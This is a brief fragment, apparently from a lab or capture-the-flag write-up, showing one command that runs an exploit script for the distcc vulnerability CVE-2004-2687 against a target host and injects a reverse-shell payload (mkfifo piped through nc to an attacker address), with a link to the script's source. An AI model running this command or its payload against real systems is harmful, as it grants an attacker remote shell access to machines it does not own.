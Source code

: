 ```
python2 CVE-2004-2687.py -t 10.129.37.154 -p 3632 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.133 6969 >/tmp/f'
```
- from https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
